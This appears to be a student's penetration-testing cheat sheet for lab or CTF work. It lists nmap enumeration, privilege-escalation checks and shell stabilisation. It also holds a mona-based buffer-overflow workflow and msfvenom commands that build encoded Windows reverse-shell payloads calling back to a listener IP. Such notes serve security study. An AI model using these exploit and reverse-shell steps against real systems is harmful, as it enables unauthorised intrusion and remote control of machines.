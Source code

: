 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
  - sudo nmap -p- -Pn -sS TARGET -oA AllPort
  - sudo nmap -p -Pn -A 10.10.43.161 -oA Services
  - -v Version
  - -A os, in-build scripts
  - -sC default scripts

- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Login
- brute force: hydra
- sqlmap

## Windows
- /priv
- systeminfo
- smb read/write
  - --script=smb-enum-shares.nse,smb-enum-users.nse
- mount:
  - --script=nfs-ls,nfs-statfs,nfs-showmount
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%
- Unquoted services:
  - wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows
- Permissions:
  - icalcs
- eventvwr
## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null : SUID
- psexec.py
- LinEnum.sh + LinPeas
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
- Groups: LXD????
- crontab
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm

## Upload files
### Windows
### Linux


# Buffer overflow
- Upload file on Immunity Debugger (windows)
  
```
!mona config -set workingfolder c:\Users\admin\Desktop\patota
python -c 'print"A" * TOTAL'
!mona findmsp -distance TOTAL 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l TOTAL
!mona findmsp -distance TOTAL
```

- EIP offset
- Remove "A" from script + write BBB on "retn"

```
while bad_chars
  !mona bytearray -b "\x00" = remove bad chars
  strings.py = without bad chars
  !mona compare -f c:\Users\admin\Desktop\patota\bytearray.bin  -a ESP-Address

!mona jmp -r esp -cpb "Badchars"
```

- Copy address and write it backwards
- Add padding: "\x90" * 16
- Shell code msfvenom without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```
## Convert python
dos2unix file
## Pictures
- strings
- exiftool
## Payloads
- msfvenom - reverse -f aspx -o app.aspx
- -e x86/shikata_ga_nai
- windows/shell_reverse_tcp 



### Kerberos
- Enumerate
  - setspn -T medin -Q ​ */* = extract accounts from Service Principal Name


